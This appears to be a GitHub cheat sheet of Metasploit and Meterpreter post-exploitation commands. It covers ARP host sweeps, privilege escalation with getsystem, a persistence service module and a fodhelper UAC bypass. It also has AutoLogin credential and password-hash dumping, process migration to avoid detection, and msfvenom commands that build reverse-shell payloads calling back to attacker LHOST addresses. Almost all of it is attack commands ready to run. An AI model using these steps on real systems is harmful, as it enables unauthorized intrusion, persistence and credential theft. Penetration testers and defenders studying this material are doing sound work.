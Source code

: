 #### Arp Sweep Scan

```
ARP Sweep allows us to enumerate live hosts in the local network using ARP requests, providing us with a simple and fast way to identify possible targets.

```

#### Useful Commands
```
getsystem > Tries to obtain highest privilege on the remote system
getuid > Server Username
sessions -i 1 > Resumes Session 1 after backgrounding
```

#### Meterpreter
> Allows attacker to enumerate information from exploited machine.

#### Maintaining Persistent Access on Windows Machine

```

background
use exploit/windows/local/persistence_service
show options
SESSION

set SESSION 1
exploit

```
> The module will generate a malicious file and upload it to the target machine. Then, it uses the same file to create a persistent service. When the service starts, it will run the uploaded file. As a result, we will receive a meterpreter session.



#### Killing Active Sessions
```
sessions -K
```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.15.2
set LPORT 4444
exploit
```
>Note : Use same LHOST and LPORT as used previously.

#### Dumping Autologin information
> To extract AutoLogin stored credentials from the target machine we need to migrate current process to explorer.exe sothat we have full control to users environment.
```
migrate -N explorer.exe

background
use post/windows/gather/credentials/windows_autologin
set SESSION 3
exploit
```
![Screenshot at 2022-12-26 12-57-43](https://user-images.githubusercontent.com/85208639/209517391-160c55de-c5c9-44d8-a0d4-adc2a5fd7f17.png)

#### Bypassing UAC(User Account Control) on Modern Windows and Dumping Admin Hash
```
msf6 > use exploit/windows/local/bypassuac_fodhelper
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set session 1
msf6 > set LHOST 10.0.2.4
msf6 > set LPORT 1234
msf6 > exploit
```

```
meterpreter > background
msf6 > use windows/gather/hashdump
msf6 > set SESSION 2
msf6 > run

```

#### Migrating Process
> Sometime users may lookinto the process running on their system and attacker session can be terminated. So we can migrate our process to another having equal privilege.

```
ps     > list all process on system
getpid > get the current shell pid
ps -U SYSTEM
migrate pid
```

#### msfvenom Payload Types
> Staged Payload : Not capable of creating a shell itself. Its just a downloader part and is smaller. Metasploit listner is required  that will send the missing payload and shell is obtained.

```
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.168.0.58 lport=443 -f elf -o payload

use exploit/multi/handler
set lhost 0.0.0.0
set lport 443
run
```

> Stageless Payload : Doesnot requires additional and can be used to receive connection simply using netcat but is larger in size.

```
msfvenom -p php/reverse_php lhost=192.168.0.58 lport=443 -o phpshell.php

```
